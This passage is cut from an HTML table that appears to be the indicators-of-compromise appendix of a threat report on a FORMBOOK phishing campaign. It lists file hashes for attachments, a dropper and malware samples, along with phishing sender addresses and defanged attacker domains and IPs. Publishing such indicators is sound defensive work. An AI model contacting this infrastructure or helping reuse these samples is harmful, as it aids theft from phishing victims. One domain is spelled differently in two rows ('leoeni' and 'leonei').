   <td><code>170eaccdac3c2d6e1777c38d61742ad531d6adbef3b8b031ebbbd6bc89b9add6</code>
   </td>
   <td>SHA256
   </td>
   <td>Profile.rar
   </td>
   <td>Production phase email attachment
   </td>
  </tr>
  <tr>
   <td><code>d346b50bf9df7db09363b9227874b8a3c4aafd6648d813e2c59c36b9b4c3fa72</code>
   </td>
   <td>SHA256
   </td>
   <td>document.docx
   </td>
   <td>Production phase compressed document
   </td>
  </tr>
  <tr>
   <td><code>776df245d497af81c0e57fb7ef763c8b08a623ea044da9d79aa3b381192f70e2</code>
   </td>
   <td>SHA256
   </td>
   <td>abb01.exe
   </td>
   <td>Production phase dropper
   </td>
  </tr>
  <tr>
   <td><code>95e03836d604737f092d5534e68216f7c3ef82f529b5980e3145266d42392a82</code>
   </td>
   <td>SHA256
   </td>
   <td>Profile.html
   </td>
   <td>Production phase JavaScript
   </td>
  </tr>
  <tr>
   <td><code>bd1c1900ac1a6c7a9f52034618fed74b93acbc33332890e7d738a1d90cbc2126</code>
   </td>
   <td>SHA256
   </td>
   <td>yxojzzvhi0.exe
   </td>
   <td>FORMBOOK malware
   </td>
  </tr>
  <tr>
   <td><code>0c560d0a7f18b46f9d750e24667721ee123ddd8379246dde968270df1f823881</code>
   </td>
   <td>SHA256
   </td>
   <td>DWG.rar
   </td>
   <td>Generic phase email attachment
   </td>
  </tr>
  <tr>
   <td><code>5a1ef64e27a8a77b13229b684c09b45a521fd6d4a16fdb843044945f12bb20e1</code>
   </td>
   <td>SHA256
   </td>
   <td>D2110-095.gz
   </td>
   <td>Generic phase email attachment
   </td>
  </tr>
  <tr>
   <td><code>4216ff4fa7533209a6e50c6f05c5216b8afb456e6a3ab6b65ed9fcbdbd275096</code>
   </td>
   <td>SHA256
   </td>
   <td>D2110-095.exe \
DWG.exe
   </td>
   <td>FORMBOOK malware
   </td>
  </tr>
  <tr>
   <td><code>admin0011[@]issratech.com</code>
   </td>
   <td>Email address
   </td>
   <td>
   </td>
   <td>Phishing sending email address
   </td>
  </tr>
  <tr>
   <td><code>admin010[@]backsjoy.com</code>
   </td>
   <td>Email address
   </td>
   <td>
   </td>
   <td>Phishing sending email address
   </td>
  </tr>
  <tr>
   <td><code>admin012[@]leoeni.com</code>
   </td>
   <td>Email address
   </td>
   <td>
   </td>
   <td>Phishing sending email address
   </td>
  </tr>
  <tr>
   <td><code>issratech[.]com</code>
   </td>
   <td>Domain name
   </td>
   <td>
   </td>
   <td>Adversary controlled domain
   </td>
  </tr>
  <tr>
   <td><code>backsjoy[.]com</code>
   </td>
   <td>Domain name
   </td>
   <td>
   </td>
   <td>Adversary controlled domain
   </td>
  </tr>
  <tr>
   <td><code>leonei[.]com</code>
   </td>
   <td>Domain name
   </td>
   <td>
   </td>
   <td>Adversary controlled domain
   </td>
  </tr>
  <tr>
   <td><code>2[.]56[.]59[.]105</code>
   </td>
   <td>IP Address
   </td>
   <td>
   </td>
   <td>IP address of <code>issratech[.]com</code>
   </td>
  </tr>
  <tr>
   <td><code>212[.]192[.]241[.]173</code>
   </td>
   <td>IP Address
   </td>
   <td>
   </td>
   <td>IP address of <code>backsjoy[.]com</code>
   </td>
  </tr>
  <tr>
   <td><code>52[.]128[.]23[.]153</code>
   </td>
   <td>IP Address
   </td>
   <td>
   </td>
   <td>IP address of <code>leonei[.]com</code>
   </td>
  </tr>
  <tr>
   <td><code>104[.]244[.]78[.]177</code>
   </td>
   <td>IP Address
   </td>
   <td>
   </td>
   <td>Adversary controlled IP address
   </td>
  </tr>
</table>
